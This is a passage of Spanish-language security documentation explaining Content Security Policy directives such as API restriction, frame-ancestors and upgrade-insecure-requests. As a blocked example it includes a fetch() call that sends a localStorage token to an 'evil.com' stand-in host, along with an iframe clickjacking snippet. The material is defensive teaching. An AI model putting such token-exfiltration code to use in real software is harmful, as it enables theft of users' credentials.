 **Qué hace:**
- Restringe qué APIs puede llamar el frontend
- Aplica a: `fetch()`, `XMLHttpRequest`, `WebSocket`, `EventSource`

**Bloquea:**
```javascript
// ❌ Bloqueado: enviar datos a dominio externo
fetch('https://evil.com/steal-data', {
  method: 'POST',
  body: JSON.stringify({ token: localStorage.getItem('token') }),
});
```

**Permite:**
```javascript
// ✅ Permitido: llamar API del mismo dominio
fetch('/api/v1/public/orders', {
  headers: { 'Authorization': `Bearer ${token}` },
});
```

---

### 4.6. `frame-ancestors 'none'`

**Qué hace:**
- Previene que tu sitio sea embebido en iframes
- Equivalente a `X-Frame-Options: DENY`

**Bloquea:**
```html
<!-- Sitio malicioso: evil.com -->
<iframe src="https://your-app.com/admin"></iframe>
<!-- ❌ Bloqueado por CSP -->
```

**Previene:**
- **Clickjacking:** Atacante embebe tu sitio y superpone botones invisibles
- **Frame injection:** Robo de datos mediante iframes ocultos

---

### 4.7. `upgrade-insecure-requests`

**Qué hace:**
- Convierte automáticamente HTTP a HTTPS
- Si tu sitio está en HTTPS pero carga recursos HTTP

**Ejemplo:**
```html
<!-- Código -->
<img src="http://example.com/logo.png">

<!-- Navegador convierte a -->
<img src="https://example.com/logo.png">
```

---